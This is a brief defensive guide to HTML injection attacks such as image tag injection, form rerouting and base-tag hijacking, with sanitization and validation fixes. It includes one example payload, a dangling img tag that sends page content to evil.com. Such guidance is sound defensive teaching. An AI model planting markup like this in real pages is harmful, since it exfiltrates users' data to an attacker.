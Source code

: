 # HTML injections
-------

## Description:

Whenever an attacker can inject HTML in your application there is a variety of different
attacks he could perform such as:

1. Content Spoofing
2. Image Tag Injection 	
3. Form Rerouting
4. Base Jumping
5. Element Override
6. Hanging Textarea

Even when your application intercepts XSS injections by means of a content security policy
header it still remains vulnerable to the attacks summarized above.

## Solution:

1.Content spoofing Otherwise known as "Content Injection" or "Virtual Defacement" occurs
whenever an attacker can inject code into your application. It is very important to sanitize and
or encode user data before you display it on screen as HTML.

2.Image tag injection occurs whenever an attacker injects a broken image tag with a non terminated
parameter like : "img src='http://evil.com?steal.php?value=
Every content after value= parameter will now be stolen and send to evil.com by the attacker
till the injection finds the next occurrence of a matching single quote.

Again you should sanitize and encode the user-input to prevent an image tag from being injected
in your application. For whenever a user is permitted to submit an image on your application
enforce and verify the application accepts valid non-broken tags only.

3.The "form" tag can't be nested. The top-level occurrence of this element
always takes precedence over subsequent appearances. Again you must avoid this type by
properly encoding and sanitizing your user-inputs.

4.Whenever an attacker injects a "base" tag into your application it can steal data because
the <base> tag specifies the base URL/target to where to process his data to.

The solution to base jumping would be to us absolute paths in your application such as:
action='/update_profile.php'

instead of:
action='update_profile.php'

5/6 can both also easily be prevented simply be encoding or sanitizing your user-input
submitted towards your application.

Always validate your user-input on a high level(server side constraint). Whenever your
application expects an integer you should validate and check whether the user submitted
input really is what you expected it to be and otherwise you terminate and log the request.
